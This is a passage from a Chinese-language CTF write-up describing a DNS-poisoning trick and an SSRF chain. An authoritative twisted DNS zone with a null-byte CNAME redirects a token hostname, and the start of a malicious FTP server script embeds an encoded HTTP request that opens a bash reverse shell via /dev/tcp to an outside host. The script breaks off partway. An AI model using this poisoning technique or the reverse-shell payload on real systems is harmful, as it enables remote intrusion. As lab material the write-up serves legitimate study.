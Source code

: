 搭建一个权威DNS服务器，注意常用于搭建DNS的`bind`在域名中含有`\000`的时候会报错，经过测试我最终选择了`twisted`，这是一个基于python的dns工具，支持权威、转发器等模式，`zone file`如下：

```
zone = [
    SOA(
        # For whom we are the authority
        'a.testsweb.xyz',

        # This nameserver's name
        mname = "ns.testsweb.xyz.",
        
        # Mailbox of individual who handles this
        rname = "admin.a.testsweb.xyz",

        # Unique serial identifying this SOA data
        serial = 0,        

        # Time interval before zone should be refreshed
        refresh = "1H",             

        # Interval before failed refresh should be retried
        retry = "30M",               

        # Upper limit on time interval before expiry
        expire = "1M",              

        # Minimum TTL
        minimum = "30"              
    ),

    NS('a.testsweb.xyz', 'ns.testsweb.xyz'),

    CNAME('ftp.a.testsweb.xyz', 'b4b093f7.ftp.testsweb.xyz\000.a.testsweb.xyz'),
    A('b4b093f7.ftp.testsweb.xyz\000.a.testsweb.xyz', '175.24.70.252'),
]
```

保存为`a.testsweb.xyz`， 然后执行下列命令，关掉systemd-resolved，以权威服务器模式打开`twisted`。

```
sudo service systemd-resolved stop
sudo twistd -n dns --pyzone a.testsweb.xyz
```

在题目中ping ftp.a.testsweb.xyz，即可污染`token.ftp.testsweb.xyz`为任意IP地址。

![image-20220222105717979](/images/image-20220222105717979.png)

运行恶意ftp脚本即可实现SSRF：

```
import socket
from urllib.parse import unquote

shell_ip = '8.8.8.8'
shell_port = '7777'

# 对payload进行一次urldecode
payload = unquote("POST%20/shellcheck%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2083%0D%0A%0D%0Ashell%3Dbash%2520-c%2520%2522bash%2520-i%2520%253E%2526%2520/dev/tcp/{}/{}%25200%253E%25261%2522".format(shell_ip, shell_port))
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 21
sk = socket.socket()
```